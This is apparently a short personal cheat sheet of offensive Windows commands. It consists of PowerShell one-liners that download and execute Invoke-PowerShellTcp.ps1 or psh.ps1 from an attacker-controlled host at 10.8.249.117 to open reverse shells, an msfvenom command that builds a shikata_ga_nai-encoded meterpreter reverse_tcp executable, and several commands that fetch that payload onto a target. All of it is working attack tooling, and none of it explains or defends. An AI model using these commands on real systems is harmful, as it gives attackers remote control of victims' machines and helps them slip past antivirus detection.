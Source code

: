 
create powershell in windows

 powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
 
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117:8081/psh.ps1');psh.ps1 -Reverse 10.8.249.117 -Port 4443
  
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -10.8.249.117  -Port 4443
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
  
  Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
 
 ## create Payload
 
 msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.249.117 LPORT=8081 -f exe -o [SHELL NAME].exe
 
 ## call payload
 
 powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.249.117:8081/learn.exe','learn.exe')"
 
 invoke-webrequest -Uri "http://10.8.249.117:8081/learn.exe"
 

Start-BitsTransfer -Source "http://10.8.249.117:8081/learn.exe" -d "c:\users"


 
 